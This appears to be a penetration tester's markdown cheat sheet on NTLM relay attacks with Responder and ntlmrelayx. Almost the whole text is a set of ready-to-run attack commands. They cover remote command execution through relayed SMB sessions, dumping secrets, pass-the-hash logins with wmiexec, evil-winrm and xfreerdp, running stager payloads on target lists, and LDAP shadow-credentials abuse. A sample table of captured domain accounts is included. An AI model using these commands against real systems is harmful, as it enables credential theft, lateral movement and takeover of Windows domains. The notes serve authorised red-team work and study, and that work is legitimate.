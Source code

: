 #enumeration #relay-enumeration
# Utilizing Sock sessions with Responder and NtlmRelayX

```
ntlmrelayx> socks
Protocol  Target          Username                  Port
--------  --------------  ------------------------  ----
SMB       172.21.48.38   SPAWN/MSIMMONS            445
MSSQL     172.21.48.230  FAERIE/ADMINISTRATOR      1433
MSSQL     172.21.48.230  FAERIE/ROOT               1433
SMB       172.21.48.230  FAERIE/ADMINISTRATOR      445
SMB       172.21.48.230  FAERIE/ALSIMMONS          445
SMTP      172.21.48.225  FAERIEEXCHANGE/SBURKE     25
SMTP      172.21.48.225  FAERIEEXCHANGE/TWILLIAMS  25
IMAP      172.21.48.225  FAERIEEXCHANGE/TMCFARLANE 143
```

# Testing Sock Access from NtlmRelayX: 

## SMB:
Using SMBExec:
- proxychains4  impacket-smbexec SPAWN/MSIMMONS@172.21.48.38
- proxychains4  smbexec.py SPAWN/MSIMMONS@172.21.48.38
Using Smbclient
- proxychains4 impacket-smbclient SPAWN/MSIMMONS@172.21.48.38
- proxychains4 smbclient.py SPAWN/MSIMMONS@172.21.48.38

## Secrets Dump
- proxychains4  impacket-secretsdump SPAWN/MSIMMONS@172.21.48.38
- proxychains4  secretsdump.py SPAWN/MSIMMONS@172.21.48.38

## Pass The Hash:
If you obtain hashes from ntlmrelayx you can use the ntlm hash to gain access to a target using the following scripts or tools: 

Impacket Wmiexec:
- impacket-wmiexec -hashes ' INSERT HASH HERE' administrator@172.21.48.230
- wmiexec.py -hashes ' INSERT HASH HERE' administrator@172.21.48.230

Evil-WinRM:
- evil-winrm -u Administrator -H 'INSERT HASH HERE' -i 172.21.48.230

XfreeRDP: 
- xfreerdp /u:Administrator /pth:'INSERT HASH HERE' /v:172.21.48.230

# Other NtlmRelayX Commands: 
## In Kali:
### SMB
- impacket-ntlmrelayx -socks -smb2support -tf smb-targets.txt -c <Stager/Stageless Payload>
- impacket-ntlmrelayx -socks -smb2support -tf smb-targets.txt -c whoami
### Ldap
- impacket-ntlmrelayx -t ldap://dc.domain.local --shadow-credentials --shadow-target target\$

## Python Impacket: 
### SMB
- ntlmrelayx.py -socks -smb2support -tf smb-targets.txt -c <Stager/Stageless Payload>
- ntlmrelayx.py -tf smb-targets.txt -c whoami
### LDAP
- ntlmrelayx.py -t ldap://dc.domain.local --shadow-credentials --shadow-target target\$

# References: 
- https://www.hackingarticles.in/a-detailed-guide-on-responder-llmnr-poisoning/
-  https://infosecwriteups.com/abusing-ntlm-relay-and-pass-the-hash-for-admin-d24d0f12bea0
-  https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/
- https://www.offsec-journey.com/post/attacking-ms-sql-servers